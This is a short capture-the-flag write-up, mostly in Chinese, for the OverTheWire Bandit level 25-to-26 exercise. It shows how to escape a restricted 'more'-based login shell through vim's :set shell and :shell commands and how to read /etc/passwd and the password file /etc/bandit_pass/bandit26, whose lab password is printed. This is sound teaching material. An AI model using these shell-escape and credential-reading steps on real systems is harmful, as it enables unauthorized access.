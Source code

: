 ```py

# 题目也提示说这个用的是其他shell
bandit25@melinda:~$ ls -a
.   .bandit24.password  .bashrc  .profile
..  .bash_logout        .pin     bandit26.sshkey

# 查看其某用户用的什么shell 可以查看/etc/passwd。
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bandit25:x:11025:11025:bandit level 25:/home/bandit25:/bin/bash
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext

$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
# bandit26用户用到的shell就是/usr/bin/showtext

$ cat /usr/bin/showtext
#!/bin/sh
export TERM=linux
more ~/text.txt
exit 0

# 系统关闭连接的原因是这个exit 0
# 在这个exit 之前执行想要的命令
The more command is used to open the file text.txt.
more is useful to display long (text) files on small screens or in a size limited terminal window - similar to the less command, but with much fewer functions.
resize the currently terminal window to so small to enter the more environment.
# 在 more 命令执行之前可以执行命令即可，把会话的终端缩小，
# 用 ssh -i bandit26.sshkey bandit26@localhost > yes，自动more
# 在 more 命令还没有结束的时候按v进入vim编辑模式。

进入vim编辑模式。

1. :e /etc/bandit_pass/bandit26     # 导入文件到编辑器内，
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z

2. :r /etc/bandit_pass/bandit26     # 读入另一个档案的数据
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z

2. start a shell.
- Type in :set shell=/bin/bash
- and type in :shell
- This will spawn a bash shell and allow us to get the password for this level.

:shell
[No write since last change]
bandit26@bandit:~$
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```
